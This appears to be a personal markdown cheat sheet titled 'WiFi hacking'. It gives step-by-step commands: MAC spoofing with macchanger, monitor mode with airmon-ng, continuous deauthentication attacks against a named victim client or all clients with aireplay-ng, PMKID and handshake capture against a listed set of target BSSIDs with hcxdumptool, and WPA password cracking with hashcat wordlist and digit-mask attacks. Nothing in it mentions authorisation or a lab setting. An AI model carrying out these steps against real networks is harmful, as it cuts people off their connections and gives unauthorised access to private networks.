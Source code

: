 # WiFi hacking

## install REaltek drivers 

This is a typical wifi SOC within ALFA devices.


```bash
sudo apt install realtek-rtl88xxau-dkms
```

## Hide your Mac

```bash

sudo ip link set dev $interface down

sudo macchanger --mac=aa:bb:cc:dd:ee:ff $interface

sudo ip link set dev $interface up

```


## Put Wireless Interface in Monitor Mode

1. check for available interfaces

`airmon-ng check`

2. kill interfering processes

`airmon-ng check kill`

3. If interface is on `wlan0`, set it to monitoring mode

`airmon-ng start wlan0`

On success you get something like 

```
PHY	Interface	Driver		Chipset

phy0	wlan0		88XXau		Realtek Semiconductor Corp. RTL8812AU 802.11a/b/g/n/ac 2T2R DB WLAN Adapter
		(monitor mode enabled)

```

## Scanning for Networks


```bash

sudo airodump-ng --band abg $interface


#You can combine these to monitor multiple bands. For example:

#--band abg: Monitor all 2.4 GHz and 5 GHz networks.
#--band bg: Monitor only 2.4 GHz networks (both 802.11b and 802.11g).
#--band a: Monitor only 5 GHz networks.


```




This will display a list of all available Wi-Fi networks, along with various details about them:

```text
BSSID: The MAC address of the access point.
PWR: Signal level reported by the card.
Beacons: Number of announcements packets sent by the AP.
#Data: Number of captured data packets (includes data and QoS data).
CH: Channel on which the AP is operating.
ENC: Encryption algorithm used (WEP, WPA, WPA2, etc.).
ESSID: The name of the Wi-Fi network.
```



## De-auth attack

### single client

```bash

# you have to be monitoring specific BSSID on specific channel

sudo airodump-ng --bssid $AP_mac  -c $channel $interface


sudo aireplay-ng -0 0 -a $AP_mac -c $victim_mac $interface


# where -0 0 is continuous deauth mode

```

### multi clients

`sudo aireplay-ng -0 0 -a $AP_mac  $interface`

Discovery: sudo hcxdumptool --do_rcascan -i wlan0

Examples of the target and how traffic is captured:

1.Stop all services that are accessing the WLAN device (e.g .: NetworManager and wpa_supplicant.service)

Code:
sudo systemctl stop NetworkManager.service
sudo systemctl stop wpa_supplicant.service

2. Start the attack and wait for you to receive PMKIDs and / or EAPOL message pairs, then exit hcxdumptool

create list of interesting bssids

cat bssid_list_8282.txt 
1c61b4e38221
1c61b4e38281
c04a00f586c1

attack:
sudo hcxdumptool -i wlan0 -o 8282_cap.pcapng --filterlist_ap=bssid_list_8282.txt --filtermode=2 --active_beacon --enable_status=15

sudo hcxdumptool -i wlan0 -o sverdlova.pcapng --active_beacon --enable_status=15

3. Restart stopped services to reactivate your network connection

Code:


4. Convert the traffic to hash format 22000

Code:
$ hcxpcapngtool -o hash.hc22000 -E wordlist dumpfile.pcapng

5. Run Hashcat on the list of words obtained from WPA traffic

Code:
$ hashcat -m 22000 hash.hc22000 wordlist.txt

hashcat -m 22000 filtered_hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d
-a 3: Specifies a mask attack.
?d: Represents a digit (0–9).